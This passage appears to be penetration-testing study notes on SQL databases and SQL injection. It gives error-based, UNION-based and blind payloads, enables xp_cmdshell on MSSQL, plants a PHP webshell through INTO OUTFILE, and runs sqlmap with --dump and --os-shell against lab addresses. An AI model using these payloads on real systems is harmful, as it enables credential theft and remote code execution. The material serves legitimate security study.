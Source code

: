 SQL is for relational databases: a database with tables, columns and rows.

For automatic functionality, SQL queries are often worked into the (backend) source code.

In some cases, user input is inserted directly into the SQL query. This may be abused by the user inputting snippets of SQL in such a way that data may be exposed.

## MySQL

To connect to an SQL instance:

```bash
mysql -u root -p'<USERNAME>' -h <TARGET_IP> -P 3306
```

You can run commands such as:
```mysql
select version();
```
```mysql
select system_user();
```

To show all databases use
```mysql
show databases;
```

To select a user and some details:
```mysql
SELECT user, authentication_string FROM mysql.user WHERE user = 'offsec';
```

<details>
  <summary>Some fundamental MySQL commands to navigate and interact with the database</summary>
<div class="markdown prose w-full break-words dark:prose-invert light"><p>Courtesy of ChatGPT - Below are some basic MySQL commands to help you navigate through the database:</p><h3>Show Databases</h3><p>To display a list of available databases, use the following command:</p><pre><div class="bg-black rounded-md"><div class="flex items-center relative text-gray-200 bg-gray-800 dark:bg-token-surface-primary px-4 py-2 text-xs font-sans justify-between rounded-t-md"><span>sql</span><button class="flex gap-1 items-center"><svg width="24" height="24" viewBox="0 0 24 24" fill="none" xmlns="http://www.w3.org/2000/svg" class="icon-sm"><path fill-rule="evenodd" clip-rule="evenodd" d="M12 4C10.8954 4 10 4.89543 10 6H14C14 4.89543 13.1046 4 12 4ZM8.53513 4C9.22675 2.8044 10.5194 2 12 2C13.4806 2 14.7733 2.8044 15.4649 4H17C18.6569 4 20 5.34315 20 7V19C20 20.6569 18.6569 22 17 22H7C5.34315 22 4 20.6569 4 19V7C4 5.34315 5.34315 4 7 4H8.53513ZM8 6H7C6.44772 6 6 6.44772 6 7V19C6 19.5523 6.44772 20 7 20H17C17.5523 20 18 19.5523 18 19V7C18 6.44772 17.5523 6 17 6H16C16 7.10457 15.1046 8 14 8H10C8.89543 8 8 7.10457 8 6Z" fill="currentColor"></path></svg>Copy code</button></div><div class="p-4 overflow-y-auto"><code class="!whitespace-pre hljs language-sql"><span class="hljs-keyword">SHOW</span> DATABASES;
</code></div></div></pre><h3>Select a Database</h3><p>To switch to a specific database, use the <code>USE</code> command:</p><pre><div class="bg-black rounded-md"><div class="flex items-center relative text-gray-200 bg-gray-800 dark:bg-token-surface-primary px-4 py-2 text-xs font-sans justify-between rounded-t-md"><span>sql</span><button class="flex gap-1 items-center"><svg width="24" height="24" viewBox="0 0 24 24" fill="none" xmlns="http://www.w3.org/2000/svg" class="icon-sm"><path fill-rule="evenodd" clip-rule="evenodd" d="M12 4C10.8954 4 10 4.89543 10 6H14C14 4.89543 13.1046 4 12 4ZM8.53513 4C9.22675 2.8044 10.5194 2 12 2C13.4806 2 14.7733 2.8044 15.4649 4H17C18.6569 4 20 5.34315 20 7V19C20 20.6569 18.6569 22 17 22H7C5.34315 22 4 20.6569 4 19V7C4 5.34315 5.34315 4 7 4H8.53513ZM8 6H7C6.44772 6 6 6.44772 6 7V19C6 19.5523 6.44772 20 7 20H17C17.5523 20 18 19.5523 18 19V7C18 6.44772 17.5523 6 17 6H16C16 7.10457 15.1046 8 14 8H10C8.89543 8 8 7.10457 8 6Z" fill="currentColor"></path></svg>Copy code</button></div><div class="p-4 overflow-y-auto"><code class="!whitespace-pre hljs language-sql">USE database_name;
</code></div></div></pre><p>Replace <code>database_name</code> with the name of the database you want to select.</p><h3>Show Tables</h3><p>To view the tables within the currently selected database, use:</p><pre><div class="bg-black rounded-md"><div class="flex items-center relative text-gray-200 bg-gray-800 dark:bg-token-surface-primary px-4 py-2 text-xs font-sans justify-between rounded-t-md"><span>sql</span><button class="flex gap-1 items-center"><svg width="24" height="24" viewBox="0 0 24 24" fill="none" xmlns="http://www.w3.org/2000/svg" class="icon-sm"><path fill-rule="evenodd" clip-rule="evenodd" d="M12 4C10.8954 4 10 4.89543 10 6H14C14 4.89543 13.1046 4 12 4ZM8.53513 4C9.22675 2.8044 10.5194 2 12 2C13.4806 2 14.7733 2.8044 15.4649 4H17C18.6569 4 20 5.34315 20 7V19C20 20.6569 18.6569 22 17 22H7C5.34315 22 4 20.6569 4 19V7C4 5.34315 5.34315 4 7 4H8.53513ZM8 6H7C6.44772 6 6 6.44772 6 7V19C6 19.5523 6.44772 20 7 20H17C17.5523 20 18 19.5523 18 19V7C18 6.44772 17.5523 6 17 6H16C16 7.10457 15.1046 8 14 8H10C8.89543 8 8 7.10457 8 6Z" fill="currentColor"></path></svg>Copy code</button></div><div class="p-4 overflow-y-auto"><code class="!whitespace-pre hljs language-sql"><span class="hljs-keyword">SHOW</span> TABLES;
</code></div></div></pre><h3>Describe a Table</h3><p>To get information about the columns in a specific table, you can use the <code>DESCRIBE</code> or <code>DESC</code> command:</p><pre><div class="bg-black rounded-md"><div class="flex items-center relative text-gray-200 bg-gray-800 dark:bg-token-surface-primary px-4 py-2 text-xs font-sans justify-between rounded-t-md"><span>sql</span><button class="flex gap-1 items-center"><svg width="24" height="24" viewBox="0 0 24 24" fill="none" xmlns="http://www.w3.org/2000/svg" class="icon-sm"><path fill-rule="evenodd" clip-rule="evenodd" d="M12 4C10.8954 4 10 4.89543 10 6H14C14 4.89543 13.1046 4 12 4ZM8.53513 4C9.22675 2.8044 10.5194 2 12 2C13.4806 2 14.7733 2.8044 15.4649 4H17C18.6569 4 20 5.34315 20 7V19C20 20.6569 18.6569 22 17 22H7C5.34315 22 4 20.6569 4 19V7C4 5.34315 5.34315 4 7 4H8.53513ZM8 6H7C6.44772 6 6 6.44772 6 7V19C6 19.5523 6.44772 20 7 20H17C17.5523 20 18 19.5523 18 19V7C18 6.44772 17.5523 6 17 6H16C16 7.10457 15.1046 8 14 8H10C8.89543 8 8 7.10457 8 6Z" fill="currentColor"></path></svg>Copy code</button></div><div class="p-4 overflow-y-auto"><code class="!whitespace-pre hljs language-sql"><span class="hljs-keyword">DESCRIBE</span> table_name;
</code></div></div></pre><p>Replace <code>table_name</code> with the name of the table you want to describe.</p><h3>Select Data from a Table</h3><p>To retrieve data from a table, use the <code>SELECT</code> statement:</p><pre><div class="bg-black rounded-md"><div class="flex items-center relative text-gray-200 bg-gray-800 dark:bg-token-surface-primary px-4 py-2 text-xs font-sans justify-between rounded-t-md"><span>sql</span><button class="flex gap-1 items-center"><svg width="24" height="24" viewBox="0 0 24 24" fill="none" xmlns="http://www.w3.org/2000/svg" class="icon-sm"><path fill-rule="evenodd" clip-rule="evenodd" d="M12 4C10.8954 4 10 4.89543 10 6H14C14 4.89543 13.1046 4 12 4ZM8.53513 4C9.22675 2.8044 10.5194 2 12 2C13.4806 2 14.7733 2.8044 15.4649 4H17C18.6569 4 20 5.34315 20 7V19C20 20.6569 18.6569 22 17 22H7C5.34315 22 4 20.6569 4 19V7C4 5.34315 5.34315 4 7 4H8.53513ZM8 6H7C6.44772 6 6 6.44772 6 7V19C6 19.5523 6.44772 20 7 20H17C17.5523 20 18 19.5523 18 19V7C18 6.44772 17.5523 6 17 6H16C16 7.10457 15.1046 8 14 8H10C8.89543 8 8 7.10457 8 6Z" fill="currentColor"></path></svg>Copy code</button></div><div class="p-4 overflow-y-auto"><code class="!whitespace-pre hljs language-sql"><span class="hljs-keyword">SELECT</span> <span class="hljs-operator">*</span> <span class="hljs-keyword">FROM</span> table_name;
</code></div></div></pre><p>Replace <code>table_name</code> with the name of the table you want to query. You can customize the query to fetch specific columns or apply conditions as needed.</p><h3>Filter Data with WHERE Clause</h3><p>To filter the results based on certain conditions, use the <code>WHERE</code> clause in the <code>SELECT</code> statement:</p><pre><div class="bg-black rounded-md"><div class="flex items-center relative text-gray-200 bg-gray-800 dark:bg-token-surface-primary px-4 py-2 text-xs font-sans justify-between rounded-t-md"><span>sql</span><button class="flex gap-1 items-center"><svg width="24" height="24" viewBox="0 0 24 24" fill="none" xmlns="http://www.w3.org/2000/svg" class="icon-sm"><path fill-rule="evenodd" clip-rule="evenodd" d="M12 4C10.8954 4 10 4.89543 10 6H14C14 4.89543 13.1046 4 12 4ZM8.53513 4C9.22675 2.8044 10.5194 2 12 2C13.4806 2 14.7733 2.8044 15.4649 4H17C18.6569 4 20 5.34315 20 7V19C20 20.6569 18.6569 22 17 22H7C5.34315 22 4 20.6569 4 19V7C4 5.34315 5.34315 4 7 4H8.53513ZM8 6H7C6.44772 6 6 6.44772 6 7V19C6 19.5523 6.44772 20 7 20H17C17.5523 20 18 19.5523 18 19V7C18 6.44772 17.5523 6 17 6H16C16 7.10457 15.1046 8 14 8H10C8.89543 8 8 7.10457 8 6Z" fill="currentColor"></path></svg>Copy code</button></div><div class="p-4 overflow-y-auto"><code class="!whitespace-pre hljs language-sql"><span class="hljs-keyword">SELECT</span> <span class="hljs-operator">*</span> <span class="hljs-keyword">FROM</span> table_name <span class="hljs-keyword">WHERE</span> column_name <span class="hljs-operator">=</span> <span class="hljs-string">'value'</span>;
</code></div></div></pre><p>Replace <code>column_name</code> with the name of the column you want to filter, and <code>'value'</code> with the specific value you're looking for.</p><h3>Insert Data into a Table</h3><p>To add new records to a table, use the <code>INSERT INTO</code> statement:</p><pre><div class="bg-black rounded-md"><div class="flex items-center relative text-gray-200 bg-gray-800 dark:bg-token-surface-primary px-4 py-2 text-xs font-sans justify-between rounded-t-md"><span>sql</span><button class="flex gap-1 items-center"><svg width="24" height="24" viewBox="0 0 24 24" fill="none" xmlns="http://www.w3.org/2000/svg" class="icon-sm"><path fill-rule="evenodd" clip-rule="evenodd" d="M12 4C10.8954 4 10 4.89543 10 6H14C14 4.89543 13.1046 4 12 4ZM8.53513 4C9.22675 2.8044 10.5194 2 12 2C13.4806 2 14.7733 2.8044 15.4649 4H17C18.6569 4 20 5.34315 20 7V19C20 20.6569 18.6569 22 17 22H7C5.34315 22 4 20.6569 4 19V7C4 5.34315 5.34315 4 7 4H8.53513ZM8 6H7C6.44772 6 6 6.44772 6 7V19C6 19.5523 6.44772 20 7 20H17C17.5523 20 18 19.5523 18 19V7C18 6.44772 17.5523 6 17 6H16C16 7.10457 15.1046 8 14 8H10C8.89543 8 8 7.10457 8 6Z" fill="currentColor"></path></svg>Copy code</button></div><div class="p-4 overflow-y-auto"><code class="!whitespace-pre hljs language-sql"><span class="hljs-keyword">INSERT</span> <span class="hljs-keyword">INTO</span> table_name (column1, column2, column3) <span class="hljs-keyword">VALUES</span> (<span class="hljs-string">'value1'</span>, <span class="hljs-string">'value2'</span>, <span class="hljs-string">'value3'</span>);
</code></div></div></pre><p>Replace <code>table_name</code> with the name of the table, and specify the column names and corresponding values.</p><h3>Update Data in a Table</h3><p>To modify existing records in a table, use the <code>UPDATE</code> statement:</p><pre><div class="bg-black rounded-md"><div class="flex items-center relative text-gray-200 bg-gray-800 dark:bg-token-surface-primary px-4 py-2 text-xs font-sans justify-between rounded-t-md"><span>sql</span><button class="flex gap-1 items-center"><svg width="24" height="24" viewBox="0 0 24 24" fill="none" xmlns="http://www.w3.org/2000/svg" class="icon-sm"><path fill-rule="evenodd" clip-rule="evenodd" d="M12 4C10.8954 4 10 4.89543 10 6H14C14 4.89543 13.1046 4 12 4ZM8.53513 4C9.22675 2.8044 10.5194 2 12 2C13.4806 2 14.7733 2.8044 15.4649 4H17C18.6569 4 20 5.34315 20 7V19C20 20.6569 18.6569 22 17 22H7C5.34315 22 4 20.6569 4 19V7C4 5.34315 5.34315 4 7 4H8.53513ZM8 6H7C6.44772 6 6 6.44772 6 7V19C6 19.5523 6.44772 20 7 20H17C17.5523 20 18 19.5523 18 19V7C18 6.44772 17.5523 6 17 6H16C16 7.10457 15.1046 8 14 8H10C8.89543 8 8 7.10457 8 6Z" fill="currentColor"></path></svg>Copy code</button></div><div class="p-4 overflow-y-auto"><code class="!whitespace-pre hljs language-sql"><span class="hljs-keyword">UPDATE</span> table_name <span class="hljs-keyword">SET</span> column_name <span class="hljs-operator">=</span> <span class="hljs-string">'new_value'</span> <span class="hljs-keyword">WHERE</span> <span class="hljs-keyword">condition</span>;
</code></div></div></pre><p>Replace <code>column_name</code> with the name of the column you want to update, <code>'new_value'</code> with the new value, and <code>condition</code> with the condition to identify the rows to be updated.</p><h3>Delete Data from a Table</h3><p>To remove records from a table, use the <code>DELETE FROM</code> statement:</p><pre><div class="bg-black rounded-md"><div class="flex items-center relative text-gray-200 bg-gray-800 dark:bg-token-surface-primary px-4 py-2 text-xs font-sans justify-between rounded-t-md"><span>sql</span><button class="flex gap-1 items-center"><svg width="24" height="24" viewBox="0 0 24 24" fill="none" xmlns="http://www.w3.org/2000/svg" class="icon-sm"><path fill-rule="evenodd" clip-rule="evenodd" d="M12 4C10.8954 4 10 4.89543 10 6H14C14 4.89543 13.1046 4 12 4ZM8.53513 4C9.22675 2.8044 10.5194 2 12 2C13.4806 2 14.7733 2.8044 15.4649 4H17C18.6569 4 20 5.34315 20 7V19C20 20.6569 18.6569 22 17 22H7C5.34315 22 4 20.6569 4 19V7C4 5.34315 5.34315 4 7 4H8.53513ZM8 6H7C6.44772 6 6 6.44772 6 7V19C6 19.5523 6.44772 20 7 20H17C17.5523 20 18 19.5523 18 19V7C18 6.44772 17.5523 6 17 6H16C16 7.10457 15.1046 8 14 8H10C8.89543 8 8 7.10457 8 6Z" fill="currentColor"></path></svg>Copy code</button></div><div class="p-4 overflow-y-auto"><code class="!whitespace-pre hljs language-sql"><span class="hljs-keyword">DELETE</span> <span class="hljs-keyword">FROM</span> table_name <span class="hljs-keyword">WHERE</span> <span class="hljs-keyword">condition</span>;
</code></div></div></pre><p>Replace <code>condition</code> with the criteria to identify the rows to be deleted.</p><p>These are some fundamental MySQL commands to help you get started with navigating and interacting with a MySQL database.</p></div>
</details>

## MSSQL

To authenticate over MSSQL, you can use SQLCMD on Windows, or Impacket for Kali

```mssql
impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth
```
To see OS version:
```mssql
SELECT @@version;
```
To list all available DBs (master, tempdb, model, and msdb are default databases):
```mssql
SELECT name FROM sys.databases;
```
To review a DB:
```mssql
SELECT * FROM <DB_NAME>.information_schema.tables;
```
Now you can inspect whatever tables you want:
```mssql
select * from <DB_NAME>.dbo.<TABLE_NAME>;
```

## Manual SQL Exploitation

SQL injection is considered in-band when the vulnerable application provides the result of the query along with the application-returned value.

### Identifying SQLi via Error-based Payloads

Payload:
```sql
<STRING>' OR 1=1 -- //
```
so that you end the query and provide an always true statement, and comment out the rest of the SQL query

Sometimes, special characters such as `'` will give an SQL error (almost never happens irl)

By prematurely terminating the SQL query again, you can interject arbitrary SQL statements, e.g.:
```mysql
' or 1=1 in (select @@version) -- //
```

```mysql
' OR 1=1 in (SELECT * FROM users) -- //
```

```mysql
' or 1=1 in (SELECT password FROM users WHERE username = 'admin') -- //
```

## Union-based Payloads

UNION is used to add an extra query, so you can select to queries into 1 SQL statement. 2 conditions:
1. The injected UNION query has to include the same number of columns as the original query.
2. The data types need to be compatible between each column.

This means that we should first figure out how many columns there are in the table. You can do this by using the following payload and increasing it by 1 each time:
```mysql
' ORDER BY 1-- //
```
This will order the results by column 1. You'll get an error whenever a column number does not exist.

Once we know that a table has e.g. 5 columns, we can continue to enumerate:
```mysql
%' UNION SELECT database(), user(), @@version, null, null -- //
```
You need to provide 5 values (database, user, version, null, null) if there are 5 columns.

If this does not return all values, try reordering the values (e.g. null, null, database, user, version)

Now, we can enumerate further. For example, we can try to enumerate the _information_schema.columns_ table to get info about all columns in all tables within a database
```mysql
' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //
```
This will give the table names and column names in the current database.

Now we can request this information, e.g.:
```mysql
' UNION SELECT null, username, password, description, null FROM users -- //
```

### Blind SQL Injections
Blind SQL injection occurs when the response of the database is never returned to the user, but we can infer the behaviour of the database using boolean/time-based logic.

Boolean-based:

E.g.:
```mysql
http://192.168.50.16/blindsqli.php?user=offsec' AND 1=1 -- //
```
This will return values only if the user is present. This way, we can enumerate the entire database for other usernames.

We can do this in the same way with a time-based SQLi payload:
```mysql
http://192.168.50.16/blindsqli.php?user=offsec' AND IF (1=1, sleep(3),'false') -- //
```
If the user is present, the application will hang for about 3 seconds. If the user is not present, it will not hang.


## Manual and Automated Code Executions

### Manual Code Execution
On Microsoft SQL Server, we can hopefully enable the xp_cmdshell function for code execution:

```bash
impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth
```` 
```mssql
EXECUTE sp_configure 'show advanced options', 1;
RECONFIGURE;
EXECUTE sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```
Now we can execute commands using:
```mssql
EXECUTE xp_cmdshell 'whoami';
```
Now, we can upgrade our shell to a more regular reverse shell.

For MySQL, we can use the SELECT INTO_OUTFILE statement to write files. We can write a webshell!
```mysql
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //
```
We need to provide the command in the URL like so: 192.168.120.19/tmp/webshell.php?cmd=whoami

### Automating the Attack
`sqlmap`!

E.g.:
```bash
sqlmap -u http://192.168.50.19/blindsqli.php?user=1 -p user
```
To check if vulnerable. This provides a dummy value for the `?user` parameter and specifies that parameter as the one to test using `-p user`.

To dump the database, we can use `--dump`

You can use sqlmap to get a shell using `--os-shell`. Preferably don't use this with time-based SQLi payloads.

For a POST request, we can do the following:
1. Intercept a POST request using Burp and save it as a local text file
2. Use this POST request as an argument for sqlmap and provide some extra info:
```bash
sqlmap -r post.txt -p item  --os-shell  --web-root "/var/www/html/tmp"
```
- -r for request file
- -p for the parameter to test (in the above example the parameter is named "item")
- --web-root for web sever document root directory
- --os-shell to prompt for an interactive shell
3. Provide extra info:
  - Web app language (ASP, ASPX, JSP, PHP)
  - 









